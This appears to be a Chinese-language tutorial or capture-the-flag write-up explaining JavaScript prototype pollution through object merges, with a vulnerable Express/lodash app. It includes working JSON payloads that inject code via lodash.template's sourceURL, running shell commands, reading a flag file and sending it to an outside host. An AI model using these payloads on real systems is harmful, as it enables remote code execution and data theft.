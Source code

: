 # 原型链污染 #
``foo.__proto__`` 指向Foo类的prototype，如果我们修改了``foo.__proto__``，同时也修改了以后使用Foo类新建的对象。

那么，在一个应用中，如果攻击者控制并修改了一个对象的原型，那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是原型链污染。

## 哪些情况下原型链会被污染？ ##
会操作对象的key的情况：
- 对象merge
- 对象clone（其实内核就是将待操作的对象merge到一个空对象中）

有一个简单的merge：
```
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
```
在合并的过程中，存在赋值的操作``target[key] = source[key]``，那么，这个key如果是__proto__，是不是就可以原型链污染呢？
```
let o1 = {}
let o2 = {a: 1, "__proto__": {b: 2}}
merge(o1, o2)
console.log(o1.a, o1.b); // 1 2

o3 = {}
console.log(o3.b); // undefined
```

这是因为，我们用JavaScript创建o2的过程``let o2 = {a: 1, “__proto__”: {b: 2}}``中，``__proto__``已经代表o2的原型了，此时遍历o2的所有键名，你拿到的是[a, b]，``__proto__``并不是一个key，自然也不会修改Object的原型。

```
let o1 = {}
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(o1, o2)
console.log(o1.a, o1.b); // 1 2

o3 = {}
console.log(o3.b); // 2
```
JSON解析的情况下，``__proto__``会被认为是一个真正的“键名”，而不代表“原型”，所以在遍历o2的时候会存在这个键，你拿到的是``[a, __proto__,b]``。所以Object的prototype受到污染。

merge操作是最常见可能控制键名的操作，也最能被原型链攻击，很多常见的库都存在这个问题。

## 真实案例 ##
被污染的代码如下：
```
const fs = require('fs')
const express = require('express')
const bodyParser = require('body-parser')
const lodash = require('lodash')
const session = require('express-session')
const randomize = require('randomatic')

const app = express()
app.use(bodyParser.urlencoded({extended: true})).use(bodyParser.json()) //对post请求的请求体进行解析
app.use('/static', express.static('static'))
app.use(session({
    name: 'thejs.session',
    secret: randomize('aA0', 16), //随机数
    resave: false,
    saveUninitialized: false
}))
app.engine('ejs', function (filePath, options, callback) { // 模板引擎
    fs.readFile(filePath, (err, content) => {         //读文件 filepath
        if (err) return callback(new Error(err))
        let compiled = lodash.template(content)             //模板化
        let rendered = compiled({...options})                //动态引入变量

        return callback(null, rendered)
    })
})
app.set('views', './views')
app.set('view engine', 'ejs')

app.all('/', (req, res) => {
    let data = req.session.data || {language: [], category: []}
    if (req.method == 'POST') {
        data = lodash.merge(data, req.body)
        req.session.data = data
    }

    res.render('index', {
        language: data.language,
        category: data.category
    })
})

app.listen(3000, () => console.log(`Example app listening on port 3000!`))
```
lodash是为了弥补JavaScript原生函数功能不足而提供的一个辅助功能集，其中包含字符串、数组、对象等操作。这个Web应用中，使用了lodash提供的两个工具：

- lodash.template 一个简单的模板引擎
- lodash.merge 函数或对象的合并

其实整个应用逻辑很简单，用户提交的信息，用merge方法合并到session里，多次提交，session里最终保存你提交的所有信息。

而这里的lodash.merge操作实际上就存在原型链污染漏洞。在污染原型链后,相当于可以给Object对象插入任意属性，这个插入的属性反应在最后的lodash.template中。lodash.template的代码如下：

```
// Use a sourceURL for easier debugging.
var sourceURL = 'sourceURL' in options ? '//# sourceURL=' + options.sourceURL + '\n' : '';
// ...
var result = attempt(function() {
  return Function(importsKeys, sourceURL + 'return ' + source)
  .apply(undefined, importsValues);
});
```

options是一个对象，sourceURL取到了其options.sourceURL属性。这个属性原本是没有赋值的，默认取空字符串。

但因为原型链污染，我们可以给所有Object对象中都插入一个sourceURL属性。最后，这个sourceURL被拼接进new Function的第二个参数中，造成任意代码执行漏洞。

**用户将带有__proto__的Payload以json的形式发送给后端，就会进行污染**，因为express框架支持根据Content-Type来解析请求Body，这里给我们注入原型提供了很大方便：

```
{
  "__proto__": {
    "sourceURL": "\u000areturn e => {for (var a in {}) {delete Object.prototype{a}; } return global.process.mainModule.constructor.load('child_process').execSync('id') }\u000a/"
  }
}
```

**原型链污染攻击有个弊端，就是你一旦污染了原型链，除非整个程序重启，否则所有的对象都会被污染与影响。**

这将导致一些正常的业务出现bug，或者就像这道题里一样，我的payload发出去，response里就有命令的执行结果了。这时候其他用户访问这个页面的时候就能看到这个结果，所以需要一个for循环把Object对象里污染的原型删掉。

```
{
  "__proto__":{
    "sourceURL":"xxx\r\nvar require = global.require || global.process.mainModule.constructor._load;var result = require('child_process').execSync('cat /flag_thepr0t0js').toString();var req = require('http').request(`http:/vps.com/${result}`);req.end();\r\n"
  }
}
```